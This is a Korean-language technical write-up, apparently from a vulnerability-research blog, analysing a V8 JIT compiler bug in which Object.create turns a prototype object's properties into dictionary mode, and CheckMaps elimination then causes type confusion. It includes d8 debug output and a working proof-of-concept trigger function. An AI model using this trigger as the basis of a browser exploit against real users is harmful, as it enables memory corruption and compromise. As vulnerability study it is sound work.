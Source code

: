 ```
        isolate(), Builtins::kCreateObjectWithoutProperties);
    ReplaceWithStubCall(node, callable, flags);
    }

```
위의 코드는 JSCreateObject operation이 런타임 함수인 CreateObjectWithoutProperties를 호출하는 것으로 변환되는 것을 의미한다. 그리고 이 런타임 함수는 C++로 구현된 builtin 함수인 ObjectCreate를 호출하고 종료된다. 결국 control flow는 JSObject::OptimizeAsPrototype에서 종료된다. 이는 prototype object가 최적화 과정에서 잠재적으로 수정될 수 있다는 것을 암시한다. 즉, JIT compiler에서 예상하지 못한 부작용이 발생할 수 있다는 것을 의미한다. 다음 코드를 실행해봄으로써 OptimizeAsPrototype이 object를 수정하는지를 확인할 수 있다. 
```
let o = {a: 42};
%DebugPrint(o);
Object.create(o);
%DebugPrint(o);
```
위 코드를 ```d8 --allow-natives-syntax```로 실행하면 다음과 같은 실행 결과를 확인할 수 있다.
```
DebugPrint: 0x3447ab8f909: [JS_OBJECT_TYPE]
    - map: 0x0344c6f02571 <Map(HOLEY_ELEMENTS)> [FastProperties]
    ...

DebugPrint: 0x3447ab8f909: [JS_OBJECT_TYPE]
    - map: 0x0344c6f0d6d1 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]
```
위에서 볼 수 있듯이 object가 prototype이 될 때 object의 Map은 변경된다. 따라서 object는 어떤식으로든 변경되어야 한다. 특히 prototype이 될 때 object의 out-of-line property storage는 dictionary 모드로 변환된다. 따라서 object의 offset 8에 있는 포인터는 더 이상 PropertyArray를 가르키지 않는다. (모든 property들은 짧은 header 이후에 차례로 존재) 대신에 NameDictionary를 가리킨다. (NameDictionary는 직접 property name과 value를 Map 없이 맵핑하는 복잡한 데이터 구조를 갖는다.) 이는 JIT compiler가 예상하지 못한 부작용이다. Map이 변경되는 이유는 v8에서는 엔진의 다른 부분에서 최적화 기법으로 인해 prototype Map들이 공유되지 않기 때문이다. <br/><br/>
이 시점에서 bug를 위한 proof-of-concept를 작성해보자. 컴파일된 함수에서 관찰 가능한 error를 발생시키기 위해서는 다음과 같은 것들이 필요하다. 
0. 함수는 prototype으로 사용되지 않는 object를 인자로 받아야한다.
1. 함수는 후속 CheckMap operation을 제거하기 위한 CheckMap operation을 수행해야 한다.
2. 함수는 object를 인자로 하여 Object.create 함수를 호출해서 Map 변경을 유발시켜야 한다.
3. 함수는 out-of-line property에 접근할 수 있어야 한다. 이는 나중에 잘못 제거될 CheckMap 이후에 property storage를 가리키는 pointer를 로드한다. (해당 포인터가 NameDictionary를 가리키지만 PropertyArray를 가리킨다고 생각하고 역참조한다.)


다음과 같은 JavaScript 코드는 위의 조건들을 만족한다.
```
function hax(o){
    //Force a CheckMaps node.
    o.a;
    //Cause unexpected side-effects.
    Object.create(o);
    
    //Trigger type-confusion because CheckMaps node is removed.
    return o.b;
}

for(let i=0;i<100000;i++){
    let o={a:42};
    o.b=43; // will be stored out-of-line.
    hax(o);
}
```
처음에는 위 코드가 (hax 함수) 다음과 같은 pseudo IR code와 비슷하게 컴파일될 것이다. 
```
CheckHeapObject o
CheckMap o, map1
Load [o+0x18]

//Changes the Map of o
Call CreateObjectWithoutProperties, 0

CheckMap o, map1
```